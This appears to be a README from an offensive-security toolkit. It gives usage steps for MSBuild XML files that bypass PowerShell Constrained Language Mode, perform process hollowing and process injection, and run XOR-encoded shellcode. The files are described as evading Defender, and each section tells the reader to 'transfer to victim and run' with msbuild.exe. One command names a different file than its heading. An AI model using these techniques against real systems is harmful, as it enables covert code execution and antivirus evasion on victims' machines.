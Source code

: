 ### CLM Bypass
- The source file `clm-bypass.xml` can be used to bypass CLM and obtain FullLanguage mode within the same session, transfer to victim and run: 
- `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe clm-bypass.xml`

### Process Hollowing
- The file `hollow.xml` can be used to perform process hollowing, very stable and bypass defender, transfer to victim and run:
- `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe hollow.xml`
- *NOTE: shellcode is XOR'd with key: 0xfa*

### Process Injection
- The file `processInjection.xml` can be used to perform process injection, very stable and bypass defender, transfer to victim and run:
- `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe inject.xml`
- *NOTE: shellcode is XOR'd with key: 0xfa*

### Shellcode Runner
- The file `shellcodeRunner.xml` used to inject and execute shellcode to the current process, transfer to victim and run:
- `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe shellcodeRunner.xml`
- *NOTE: shellcode is XOR'd with key: 0xfa*
